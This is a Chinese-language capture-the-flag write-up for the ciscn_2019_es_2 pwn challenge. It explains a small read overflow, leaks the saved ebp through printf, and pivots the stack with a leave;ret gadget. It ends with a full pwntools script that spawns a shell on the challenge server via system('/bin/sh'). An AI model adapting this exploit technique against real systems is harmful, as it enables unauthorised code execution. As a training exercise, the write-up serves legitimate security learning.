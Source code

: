 首先checksec

![image-20201124163733385](https://static.hack1s.fun/images/2021/02/06/image-20201124163733385.png)

开启了nx的32位程序

程序存在漏洞的代码

![image-20201124163754539](https://static.hack1s.fun/images/2021/02/06/image-20201124163754539.png)

read溢出了0x8个字节，也就是只能控制esp和ra

一共触发了两次，另外还有printf函数直接以字符串形式输出

函数表中还存在一个hack函数

![image-20201124164041962](https://static.hack1s.fun/images/2021/02/06/image-20201124164041962.png)

这个函数其实只能输出'flag'这个字符串，并没办法输出里面的内容，这个的作用应该就是提供system函数

由于这里调用了两次这个read，我们可以尝试将esp迁移到s的位置，这样第二次输入的内容就可以直接当做栈上需要的参数

第一次输入需要正好覆盖28h，这样让程序可以输出爆存在栈上的old-ebp的值，然后动态调试找到old-ebp和s之间的偏移



首先第一次的read，输入内容正好28h，让printf输出将要覆盖的ebp的值

![image-20201124183926382](https://static.hack1s.fun/images/2021/02/06/image-20201124183926382.png)

动态调试时可以看到泄漏的地址值为`0xffbb96f8`

而实际上我们控制的缓冲区s的地址是`0xffbb96c0`，两者之间相差了`0x38`，而根据我们shellcode的组织，`/bin/sh`字符串位于`0x28`的偏移处



之后第二次的溢出，就是构造出栈迁移到s缓冲区上

```python
payload = "aaaa" + p32(elf.sym['system']) + p32(elf.sym['vul']) + p32(old_ebp - 0x28) + "/bin/sh\x00"
```

除了这一段的内容以外还需要将这个长度填充到28h

之后的ebp和return address就填写栈迁移时用到的值，分别是s的起始地址和`leave;ret`的地址

找到这样的gadget地址

![image-20201124170421411](https://static.hack1s.fun/images/2021/02/06/image-20201124170421411.png)

最终的脚本

```python
from pwn import *

io = remote('node3.buuoj.cn',26407)
#io = process('./ciscn_2019_es_2')
elf = ELF('./ciscn_2019_es_2')

leave_ret = 0x80484b8

payload1 = 'a'*0x20 + 'b'*8

io.send(payload1)

io.recvuntil('bbbbbbbb')
old_ebp = u32(io.recv(4))

payload2 = b'aaaa' + p32(elf.sym['system']) + p32(elf.sym['vul']) + p32(old_ebp-0x28)+b"/bin/sh\x00"
payload2 += (0x28-len(payload2))*b'c'
payload2 += p32(old_ebp-0x38) + p32(leave_ret)

io.send(payload2)
io.interactive()
```

